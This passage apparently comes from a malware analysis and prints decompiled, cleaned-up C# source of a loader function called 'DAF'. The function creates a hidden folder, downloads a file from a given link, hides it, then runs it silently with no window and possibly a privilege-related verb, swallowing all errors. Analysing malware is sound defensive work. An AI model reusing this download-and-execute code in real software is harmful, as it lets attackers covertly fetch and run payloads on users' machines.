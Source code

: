 ```cs
public static void DAF(string link, string path, string name, bool isexecute, bool iswatch)
{
    try
    {
        // create directory
        if (!Directory.Exists(path))
        {
            Directory.CreateDirectory(path);
        }
        new DirectoryInfo(path).Attributes = FileAttributes.Hidden;

        // if (link != "")
        if (link != <Module>.smethod_2<string>(2544616314u))
        {
            Uri address = new Uri(link);
            if (File.Exists(path + name))
            {
                File.Delete(path + name);
            }

            // download file
            WebClient webClient2 = new WebClient();
            ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
            webClient2.DownloadFileAsync(address, path + name);
            new FileInfo(path + name).Attributes = FileAttributes.Hidden;
        }

        if (!isexecute)
        {
            return;
        }

        // wait until file is downloaded lol
        if (new FileInfo(path + name).Length > 20000L)
        {
            Thread.Sleep(4000);
        }
        else
        {
            Thread.Sleep(7000);
        }

        // start process
        Process process = new Process();
        ProcessStartInfo processStartInfo2 = (process.StartInfo = new ProcessStartInfo(path + name)
        {
            UseShellExecute = false,
            CreateNoWindow = true,
            WindowStyle = ProcessWindowStyle.Hidden
        });

        if (iswatch)
        {
            processStartInfo2.Verb = <Module>.smethod_4<string>(1979142315u);
        }
        process.Start();
    }
    catch
    {
    }
}
```
> I cleaned up the pseudocode for this one as it was still a bit of a mess.